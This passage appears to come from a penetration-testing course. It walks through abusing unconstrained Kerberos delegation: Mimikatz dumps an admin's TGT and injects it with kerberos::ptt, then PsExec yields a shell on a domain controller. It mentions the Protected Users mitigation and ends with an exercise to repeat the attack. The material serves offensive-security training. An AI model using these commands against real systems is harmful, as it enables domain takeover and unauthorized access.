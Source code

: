 ```
   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
   * Saved to file [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi !

...

mimikatz # kerberos::ptt [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi

* File: '[0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi': OK
```

> Listing 20 - Dumping and injecting TGT

With the TGT for the _admin_ user injected into memory, we can exit Mimikatz and test our access on the domain controller with PsExec.

```
mimikatz # exit
Bye!

C:\Tools> C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
prod\admin
```

> Listing 21 - Obtaining code execution on the domain controller

We have achieved code execution on the domain controller since the _admin_ user is a member of the Domain Admins group.

This illustrates that if a user connects to a service that is configured with unconstrained Kerberos delegation, that user can be compromised.

By default, all users allow their TGT to be delegated, but privileged users can be added to the _Protected Users_ group,[3](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5483-3) which blocks delegation. Obviously, this will also break the functionality of the application that required unconstrained delegation for those users.

In the next section, we'll improve our abuse of unconstrained delegation so that we do not have to rely on social engineering an administrative user.

#### Exercise

1. Repeat the attack shown in this section to achieve code execution on the domain controller.

Reboot appsrv01 between sections to ensure no prior tickets are present in memory.
